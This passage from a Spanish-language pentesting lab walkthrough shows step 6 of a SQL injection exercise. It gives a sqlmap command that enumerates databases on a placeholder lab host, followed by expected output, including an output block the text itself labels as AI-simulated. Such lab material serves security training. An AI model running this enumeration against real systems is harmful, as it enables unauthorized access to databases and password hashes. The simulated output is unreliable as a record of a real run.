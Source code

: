 🔍 Nota de seguridad: Esta simulación muestra un escenario donde la aplicación se conecta a la base de datos como `root@localhost`, lo cual es un hallazgo crítico en entornos reales. Siempre use cuentas con privilegios mínimos para aplicaciones web en producción.

PASO 6: Comando 3 - Enumerar Bases de Datos
Objetivo: Listar todas las bases de datos accesibles.

```bash
sqlmap -u "http://[IP_PENTESTERLAB]/sqli/example1.php?id=1" --dbs
```

💡 Explicación:

- --dbs: Enumera todas las bases de datos
📊 Salida esperada (resumen):
[00:51:05] [INFO] fetching database names
[00:51:05] [INFO] used SQL query returns 3 entries
[00:51:05] [INFO] retrieved: information_schema
[00:51:06] [INFO] retrieved: exercises
[00:51:06] [INFO] retrieved: mysql

available databases [3]:
[*] exercises
[*] information_schema
[*] mysql

🔍 Análisis de Bases de Datos:
Base de Datos Descripción Sensibilidad
information_schema Metadatos del sistema MySQL 🟡 Media - Contiene estructura de todas las BDs
exercises Base de datos de la aplicación 🔴 Alta - Contiene datos de usuarios
mysql Base de datos del sistema MySQL 🔴 Crítica - Contiene hashes de contraseñas

📝 Documentar:

- Total de BDs: 3
- BD objetivo: exercises
- BDs del sistema: information_schema, mysql

**📊 Simulación de la Práctica — Salida Generada con IA (NO es una ejecución real)**

La siguiente salida es una simulación generada con IA que muestra lo que `sqlmap --dbs` podría devolver contra la aplicación vulnerable. Está incluida solo con fines educativos y no proviene de una ejecución real.

```text
[00:51:03] [INFO] testing connection to the target URL
[00:51:03] [INFO] testing if the target URL content is stable
[00:51:04] [INFO] target URL content is stable
[00:51:04] [INFO] testing if GET parameter 'id' is dynamic
[00:51:04] [INFO] GET parameter 'id' appears to be dynamic
[00:51:04] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[00:51:04] [INFO] testing for SQL injection on GET parameter 'id'

[00:51:05] [INFO] fetching database names
[00:51:05] [INFO] used SQL query returns 3 entries
[00:51:05] [INFO] retrieved: information_schema
[00:51:06] [INFO] retrieved: exercises
[00:51:06] [INFO] retrieved: mysql

available databases [3]:
[*] exercises
[*] information_schema
[*] mysql

[*] ending @ 00:51:06
```
